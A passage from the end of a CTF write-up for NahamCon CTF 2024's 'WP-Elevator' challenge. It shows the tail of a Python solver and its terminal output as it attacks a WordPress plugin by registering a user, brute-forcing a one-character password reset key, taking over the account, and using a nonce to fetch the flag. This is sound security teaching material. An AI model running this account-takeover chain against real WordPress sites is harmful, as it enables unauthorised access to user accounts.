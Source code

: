 ```python
    solver = Solver(baseUrl)

    solver.solve()
```

```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Sponsorship/WP-Elevator)-[2024.05.28|18:04:33(HKT)]
└> python3 solve.py
[*] Creating a new user...
[+] Created a new user. Username: lfylselqcx, user ID: 2
[*] Generating a password reset activation key for user "lfylselqcx"...
[+] Generated a password reset activation key for user "lfylselqcx"
[*] Resetting password for user "lfylselqcx"...
[*] Trying key "a"...
[*] Trying key "b"...
[...]
[*] Trying key "A"...
[*] Trying key "B"...
[*] Trying key "C"...
[+] Found the correct password reset activation key "C"!
[+] User lfylselqcx's password has been reset to "moyuhpgxzz"
[*] Logging in as user "lfylselqcx"...
[+] Logged in as user "lfylselqcx"
[*] Getting a valid nonce...
[+] Valid nonce: "415a04ae4b"
[*] Getting the flag with nonce "415a04ae4b"...
[+] We got the flag: "CTF{DEFINETLY_NOT_THE_FLAG}"
```

Nice! We got the flag!!

- **Flag: `CTF{n0nc3s_f0r_auth0riz4t10n}`**

## Conclusion

What we've learned:

1. WordPress plugin source code audit